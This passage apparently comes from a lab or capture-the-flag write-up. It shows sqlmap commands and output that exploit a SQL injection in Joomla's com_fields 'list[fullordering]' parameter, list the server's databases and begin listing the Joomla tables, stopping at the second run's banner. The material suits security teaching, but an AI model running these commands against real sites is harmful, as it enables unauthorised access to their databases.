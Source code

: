 We just need to put in the Joomla server IP, and remove --level 5 to speed it up a bit:

```text
root@kali:/home/kali# sqlmap -u "http://10.10.96.177/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering]
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
    |_|V...       |_|   http://sqlmap.org

[*] starting @ 21:17:47 /2021-02-22/

[21:17:47] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:11.0) Gecko Firefox/11.0' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[21:17:48] [INFO] testing connection to the target URL
[21:17:49] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=eepovqo30vh...074lj28j67'). Do you want to use those [Y/n] y
[21:17:54] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:17:55] [INFO] testing if the target URL content is stable
[21:17:55] [INFO] target URL content is stable
[21:17:55] [INFO] heuristic (basic) test shows that GET parameter 'list[fullordering]' might be injectable (possible DBMS: 'MySQL')
[21:17:56] [INFO] testing for SQL injection on GET parameter 'list[fullordering]'
<SNIP>
[21:26:42] [INFO] the back-end DBMS is MySQL
[21:26:42] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[21:26:43] [INFO] fetching database names
[21:26:43] [INFO] retrieved: 'information_schema'
[21:26:43] [INFO] retrieved: 'joomla'
[21:26:43] [INFO] retrieved: 'mysql'
[21:26:43] [INFO] retrieved: 'performance_schema'
[21:26:44] [INFO] retrieved: 'test'
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test

[*] ending @ 21:26:44 /2021-02-22/
```

Using the exploit we've retrieved the databases, as Joomla is our target let's have a look at that one:

```text
root@kali:/home/kali# sqlmap -u "http://10.10.96.177/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5#stable}
 |_ -| . ["]     | .'| . |
 |___|_  [)]_|_|_|__,|  _|
       |_|V...       |_|   http://sqlmap.org

[*] starting @ 21:31:46 /2021-02-22/

```